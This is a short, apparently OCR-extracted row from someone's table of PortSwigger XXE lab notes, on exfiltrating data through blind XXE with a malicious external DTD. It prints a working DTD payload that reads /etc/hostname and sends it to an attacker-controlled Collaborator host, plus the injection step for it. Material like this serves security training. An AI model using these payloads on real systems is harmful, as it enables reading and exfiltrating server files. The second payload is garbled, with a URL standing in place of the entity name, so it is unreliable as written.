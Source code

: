 |71    |Exploiting blind XXE to exfiltrate data using a malicious external DTD                                                   |<!ENTITY % file SYSTEM "file:///etc/hostname"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"> %eval; %exfil;  <!DOCTYPE foo [<!ENTITY % https://portswigger.net/web-security/xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |Save first command in Exploit Server.  Second XXE payload will then access the XXE in the exploit server and call out to the Burp Collaborator.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |Practitioner, Review, XXE                   |